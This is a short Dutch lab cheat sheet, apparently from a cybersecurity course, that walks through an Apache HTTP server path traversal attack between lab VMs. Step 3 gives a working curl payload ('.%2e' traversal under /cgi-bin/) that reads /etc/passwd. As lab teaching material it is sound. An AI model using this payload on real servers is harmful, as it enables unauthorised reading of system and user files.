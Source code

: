 # Cheat sheet aanval van Apache HTTP server path traversal

Voor het uitvoeren van de aanval van Apache HTTP server path traversal zijn de volgende stappen nodig:

Stap 1: Contolleer of de VM's met elkaar kunnen communiceren

```bash
ping <ip-van-de-server>
PING 192.168.0.254 (192.168.0.254) 56(84) bytes of data.
64 bytes from 192.168.0.254: icmp_seq=1 ttl=64 time=3.43 ms
64 bytes from 192.168.0.254: icmp_seq=2 ttl=64 time=0.419 ms
64 bytes from 192.168.0.254: icmp_seq=3 ttl=64 time=0.423 ms
```

Stap 2: Controleer of de Apache HTTP server draait op de server

Surf van de Kallio VM naar de Apache HTTP server VM en controleer of de server draait. Dit kan gedaan worden door in de browser het IP adres van de server in te voeren. Als de server draait, zou je een welkomstpagina moeten zien.

![Site zichtbaar](img/cybersecuritysite.png)

Stap 3: Path Traversal aanval uitvoeren

Gebruik de volgende curl command om de path traversal aanval uit te voeren:

```bash
curl -v --path-as-is http://192.168.0.145:80/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd
```

Als je deze command uitvoert, zou je de inhoud van het bestand /etc/passwd moeten zien. Dit bestand bevat informatie over de gebruikers op het systeem.

```bash